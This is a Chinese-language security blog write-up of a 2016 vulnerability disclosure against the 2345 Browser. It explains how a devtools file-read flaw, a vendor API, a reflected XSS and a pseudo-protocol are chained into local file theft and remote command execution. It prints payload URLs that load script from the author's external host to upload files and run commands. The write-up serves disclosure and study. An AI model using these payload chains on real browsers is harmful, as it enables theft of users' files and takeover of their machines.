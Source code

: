 title: "[浏览器安全系列一] 2345浏览器本地文件读取及远程命令执行"
date: 2016-07-23 23:04:35
tags: ["安全", "浏览器安全", "XSS"]

---

案例链接：http://wooyun.org/bugs/wooyun-2016-0204520

### 背景知识

#### 0x00 chrome-devtools本地文件读取漏洞

在 http://www.wooyun.org/bugs/wooyun-2010-0176314 中使用到了一个chrome-devtools的一个本地文件读取的漏洞（只有特定几个版本有这个问题，现在已经修复），访问URL
```
chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://xxx.com/&remoteFrontend=true
```
就会加载并执行xxx.com下的screencast_module.js，在这个js中，有权限使用DevToolsAPI，利用向外出容器发送类型为loadNetworkResource的消息可以读取到本地文件内容。我写了一个flask程序进行验证，见测试代码。 在C盘新建一个`111.txt`并写入内容，运行服务器之后，在2345浏览器打开`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/file/&remoteFrontend=true`。本地测试截图：
![](http://ww1.sinaimg.cn/large/005GzSIagw1f3hwy8nqwcj30ln0bigp3.jpg)

#### 0x01 WebKit系浏览器伪协议调用

在 http://www.wooyun.org/bugs/wooyun-2010-0175902 中，可以通过`location.href="vbefile:/../../../已知路径/1.js"`来执行本地文件`1.js`
![](http://ww1.sinaimg.cn/large/005GzSIagw1f3hwyb7kovj30ob0aen1j.jpg)

### 一步一步构造PoC

#### 0x00 首先我们来思考如何实现读取本地文件
	
要让用户自己主动打开：`chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://x.xx.com/file/&remoteFrontend=true`貌似不太可能，如@gainover提到的，location.href，window.open进行跳转都是会因为安全问题而被浏览器限制，比如：提示Not allowed to load local resource，或打开页面是空白等措施。

#### 0x01 国产浏览器的毛病

在很多基于Chromium进行开发的国产浏览器中，厂商都会加入一些自己定制的API来实现一些特定的功能。在2345浏览器中，我发现一个API：`chrome.ntp2345.prepareThumbnail`，根据名字猜测，这个API应该是用于获取指定URL的HTML页面的截图，也就是说会先访问页面，然后渲染生成缩略图。（因为之前在一个开源项目中实现过类似功能，所以看到这个比较敏感）。进行了尝试之后，发现果然可以执行，并且服务端接收到了发送上来的文件内容，完美地绕过了安全限制！

```
chrome.ntp2345.prepareThumbnail('chrome-devtools://devtools/bundled/inspector.html?remoteBase=http://127.0.0.1/file/&remoteFrontend=true')
```

#### 0x02 XSS来帮忙

发现上面的API之后，我里面写了一个页面进行测试，发现还是有一定的限制，那就是这个API在非2345.com及其子域名下执行的话，会直接返回2并且不会访问制定的URL。怎么办？我们来找个XSS不就绕过了？这里有点幸运，我Google了一下`site:2345.com inurl:url`就找到了一个使用js进行url跳转的XSS，原理类似于@phith0n的http://wooyun.org/bugs/wooyun-2016-0179329 ，不受chrome限制的XSSAuditor一个反射型XSS。

```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:alert(document.domain);//
```
![](http://ww3.sinaimg.cn/large/005GzSIagw1f3hxp65frrj30j20abju9.jpg)
![](http://ww3.sinaimg.cn/large/005GzSIagw1f3hxp84i17j30k6098ac5.jpg)

#### 0x03 本地文件读取PoC
服务端代码：https://gist.github.com/zhchbin/c4f7de8faf8a7cfa6c0f00191277df98#file-2345_poc-py-L199-L240

用户点击一下URL，C盘下的111.txt文件内容就被上传到了服务器上，
```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:s=document.createElement(%27script%27);s.src=%27//a.zhchbin.xyz/file/xss.js%27;document.body.appendChild(s);//
```

过程总结：cps.2345.com域名下的XSS，加载/file/xss.js，执行chrome.ntp2345.prepareThumbnail(url)访问chrome-devtools:页面，读取本地文件并上传。

####  0x04 我们来实现远程命令执行

原理：（1）上述的chrome-devtools本地文件读取漏洞不仅能读取文件，还能读取文件列表！（2）我们可以通过浏览器的cache机制，写入我们指定的内容到浏览器的cache目录中（3）可以利用WebKit系浏览器伪协议调用执行cache文件。

2345浏览器的默认cache目录在：C:\Users\%USERNAME%\AppData\Local\2345Explorer\User Data\Default\Cache。要执行这个目录下的cache文件，我们要解决两个问题，首先是找出当前系统的用户名，第二是定位到我们的恶意cache文件。第一个问题，我们可以通过读取C:\Users这个目录下的文件列表，得到用户列表。然后针对每个用户，执行以下的操作来定位恶意cache文件：获取cache目录下的文件列表，保存在localStorage中，然后利用插入img的方式写入恶意cache文件，完成后再获取一次cache目录下的文件列表，找出第二次集合中新增加的文件，上传到服务器中，前端跳转到执行页面，指定iframe的src为`vbefile:/../../../../../../../../Users/xxx/AppData/Local/2345Explorer/User Data/Default/Cache/f_xxxx`，从而达到命令执行的效果。

服务端代码：https://gist.github.com/zhchbin/c4f7de8faf8a7cfa6c0f00191277df98#file-2345_poc-py-L9-L196
用户点击：
```
http://cps.2345.com/go/?bid=2014060633&company_id=33&url=javascript:s=document.createElement(%27script%27);s.src=%27//a.zhchbin.xyz/xss.js%27;document.body.appendChild(s);//
```

测试说明：因为请求有时序依赖，所以里面用了5000毫秒的等待时间，来确保顺序的正确性。测试时可以在修改一下里面的域名变成本地的地址，然后运行。

![](http://ww4.sinaimg.cn/large/005GzSIagw1f3hzd1cp2gg30my0fydmr.gif)